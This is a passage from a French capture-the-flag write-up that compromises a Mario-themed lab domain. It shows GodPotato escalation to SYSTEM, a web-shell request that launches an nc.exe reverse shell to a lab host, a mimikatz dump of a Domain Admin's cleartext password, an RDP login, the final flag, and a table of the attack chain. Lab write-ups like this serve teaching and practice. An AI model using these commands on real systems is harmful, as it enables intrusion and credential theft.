C:\Windows\Temp\GodPotato.exe -cmd "cmd /c whoami"
```



Je peux lancer un listener sur TOAD et triger un reverse shell avec


```bash
curl -G "http://127.0.0.1:8080/uploads/shell5.aspx" --data-urlencode 'cmd=C:\Windows\Temp\GodPotato.exe -cmd "C:\Windows\Temp\nc.exe -e cmd.exe 10.10.20.1 4446"'
```


---
## 8. Dump LSASS, credentials en cache

WDigest est activé, `UseLogonCredential=1`. Un compte Domain Admin, `bowser_admin`, se connecte régulièrement sur cette machine via une tâche planifiée de maintenance, donc son mot de passe reste en clair en mémoire.

```powershell
C:\Windows\Temp\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

```
Username : bowser_admin
Domain   : MUSHROOMKINGDOM
Password : visible en clair
```

---
## 9. Domain Admin, flag final

```bash
xfreerdp /u:bowser_admin /p:'<motdepasse>' /d:MUSHROOMKINGDOM /v:10.10.20.30
```

Flag sur le bureau, `C:\Users\bowser_admin\Desktop\flag.txt` :

```
FLAG{s0rry_m4r10_y0ur_pr1nc3ss_1s_1n_4n0th3r_c4stl3}
```

---
## Résumé de la chaîne

| Étape | Vecteur | Résultat |
|---|---|---|
| Recon | PTR + bruteforce sous-domaine | découverte de `forum.mushroomkingdom.local` |
| LFI | paramètre `q` de la recherche | lecture fichier arbitraire |
| RCE Linux | LFI + wrapper `data://` (allow_url_include) | shell `www-data` sur TOAD |
| Privesc Linux | coffre KeePass faible -> toadette -> sudo vim | root sur TOAD |
| Pivot | `castle_access.txt` | creds `svc_bowser_jr` |
| RCE Windows | upload `.aspx` non filtré | shell sur KOOPALINGS-CASTLE |
| Privesc Windows | `SeImpersonatePrivilege` + GodPotato | SYSTEM sur KOOPALINGS-CASTLE |
| Credentials en cache | WDigest, tâche planifiée | mdp `bowser_admin` en clair |
| Compromission finale | RDP avec `bowser_admin` | Domain Admin sur `DC-BOWSER-KINGDOM` |
